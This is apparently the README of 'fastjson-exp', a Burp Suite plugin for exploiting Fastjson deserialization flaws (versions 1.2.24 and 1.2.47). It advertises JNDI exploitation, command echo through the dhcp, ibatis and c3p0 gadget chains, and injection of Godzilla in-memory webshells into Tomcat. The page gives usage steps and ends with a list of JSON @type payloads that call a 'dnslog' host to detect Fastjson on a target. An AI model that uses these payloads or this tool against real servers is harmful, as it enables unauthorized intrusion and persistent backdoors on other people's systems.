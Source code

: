 # fastjson-exp
fastjson利用，burp插件。
支持出网 jndi利用检测，不出网 tomcat、spring回显，哥斯拉内存马，回显利用链为dhcp、ibatis、c3p0，内存马支持tomcat89
# 用法
加载到burp插件，自行选择echo、jndi、inject。
探测存在后，发送Repeater自行修改请求头，回显在响应头。如下
![image](https://user-images.githubusercontent.com/38367493/158349823-b52b658a-e734-4fe1-9096-e2272c1e8cde.png)

![image](https://user-images.githubusercontent.com/38367493/158350504-07f05d22-2f28-41b8-8903-9f462f7b8292.png)

![image](https://user-images.githubusercontent.com/38367493/158349892-9931206f-2feb-4ea8-b682-bd41296a93dc.png)

# 测试环境
tomcat启动后，将war包放在webapps目录即（tomcat自带dhcp依赖），漏洞环境为1.2.24和1.2.47。

# 判断是否使用fastjon组件
dns
● {"@type":"java.net.Inet4Address","val":"dnslog"}

● {"@type":"java.net.Inet6Address","val":"dnslog"}

● {"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}

● {{"@type":"java.net.URL","val":"http://dnslog"}:0

● {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}

● Set[{"@type":"java.net.URL","val":"http://dnslog"}]
